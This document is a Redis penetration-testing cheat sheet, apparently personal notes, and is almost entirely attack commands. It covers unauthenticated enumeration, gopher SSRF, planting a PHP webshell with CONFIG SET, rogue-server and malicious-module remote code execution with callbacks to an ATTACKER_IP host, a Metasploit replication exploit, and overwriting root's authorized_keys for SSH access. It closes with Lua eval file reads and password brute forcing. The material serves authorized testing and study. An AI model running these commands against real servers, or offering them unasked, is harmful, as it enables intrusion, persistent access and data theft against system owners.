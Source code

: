# Redis Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Redis (port 6379), I realistically expect to find:

- [ ] Open access with no authentication
- [ ] Valid passwords found via brute-force
- [ ] Ability to enumerate keys and sensitive data in memory
- [ ] Configuration values revealing file paths or passwords
- [ ] Ability to write files on disk (webshells, authorized_keys)
- [ ] Vulnerabilities allowing remote code execution via replication or modules
- [ ] Potential to exfiltrate user data, tokens, session IDs
- [ ] Possibility to pivot through SSRF/Gopher payloads
- [ ] Credentials that might be reused on other services (e.g., SSH)

---

## ✅ Redis Pentest Checklist

- [ ] **Enumeration Using Nmap**
    ```bash
    nmap --script redis-info -sV -p 6379 <IP>
    ```

- [ ] **Enumeration Using Metasploit**
    ```bash
    use auxiliary/scanner/redis/redis_server
    ```

- [ ] **Manual Connection**
    ```bash
    telnet <IP> 6379
    nc -vn <IP> 6379
    redis-cli -h <IP>
    ```

- [ ] **Run Commands After Connecting**
    ```bash
    INFO
    KEYS *
    GET <KEY>
    CONFIG GET *
    CONFIG GET dir
    ```

- [ ] **Use Gopher for Exploitation**
    ```bash
    curl gopher://<TARGET>:6379/_GET%20flag --max-time 1
    ```

- [ ] **Check for LFI Opportunities**
    - Review configuration files:
        ```
        /etc/redis/redis.conf
        /etc/apache2/sites-enabled/000-default.conf
        /etc/systemd/system/redis.service
        ```
    - Attempt writing to webroot if found.

- [ ] **Review All Notes for Techniques and Examples**

---

## ✅ Redis Useful Commands

- **Automatic Enumeration**
    ```bash
    nmap -sV --script redis-info -p 6379 <IP>
    msfconsole
    use auxiliary/scanner/redis/redis_server
    ```

- **Manual Enumeration**
    ```bash
    redis-cli -h <IP>
    INFO
    KEYS *
    GET <KEY>
    CONFIG GET *
    CONFIG GET dir
    ```

- **Using Gopher**
    ```bash
    curl gopher://<IP>:6379/_GET%20flag --max-time 1
    ```

---

## ✅ Exploitation Examples

- **PHP Webshell Upload**
    ```bash
    redis-cli -h <IP> -a <PASSWORD>
    CONFIG SET dir /opt/redis-files
    CONFIG SET dbfilename rce.php
    SET test "<?php system('id'); ?>"
    SAVE
    ```

- **Using Rogue Server**
    - Repo: [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
    ```bash
    git clone https://github.com/n0b0dyCN/redis-rogue-server
    cd redis-rogue-server
    python3 redis-rogue-server.py --rhost <TARGET_IP> --lhost <ATTACKER_IP>
    ```

- **Load Redis Module for RCE**
    - Repo: [RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
    ```bash
    git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
    cd RedisModules-ExecuteCommand
    make
    ftp <TARGET_IP>
    put module.so

    redis-cli -h <IP>
    MODULE LOAD /var/ftp/pub/module.so
    system.exec "id"
    ```

- **Unauthenticated Exploit via Metasploit**
    ```bash
    use exploit/linux/redis/redis_replication_cmd_exec
    set RHOSTS <IP>
    set LHOST <ATTACKER_IP>
    set SRVHOST <ATTACKER_IP>
    exploit
    ```

---

## ✅ Overwriting Authorized Keys for SSH Access

- **Manual Redis-cli Method**
    ```bash
    ssh-keygen
    (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
    cat spaced_key.txt | redis-cli -h <IP> -x set ssh_key
    redis-cli -h <IP>
    CONFIG SET dir /root/.ssh/
    CONFIG SET dbfilename "authorized_keys"
    SAVE
    ssh -i ~/.ssh/id_rsa root@<IP>
    ```

- **Metasploit File Upload**
    ```bash
    use auxiliary/scanner/redis/file_upload
    set RHOSTS <IP>
    set LocalFile /root/key
    set RemoteFile /root/.ssh/authorized_keys
    run
    ```

---

## ✅ Attacking Password-Protected Redis
    ```bash
    use auxiliary/scanner/redis/redis_login
    set RHOSTS <IP>
    run
    # Then:
    redis-cli -h <IP>
    AUTH <PASSWORD>
    KEYS *
    GET <KEY>
    ```

---

## ✅ Eval Abuse Example
    ```bash
    redis-cli -h <IP> -p 6379 eval "dofile('C:\\Users\\enterprise-security\\Desktop\\user.txt')" 0
    ```

---

## ✅ Brute Force Options

- **Metasploit**
    ```bash
    use auxiliary/scanner/redis/redis_login
    ```

- **Nmap**
    ```bash
    nmap --script redis-brute -p 6379 <IP>
    ```

- **Hydra**
    ```bash
    hydra -P /path/to/passwords.txt redis://<IP>:6379
    ```
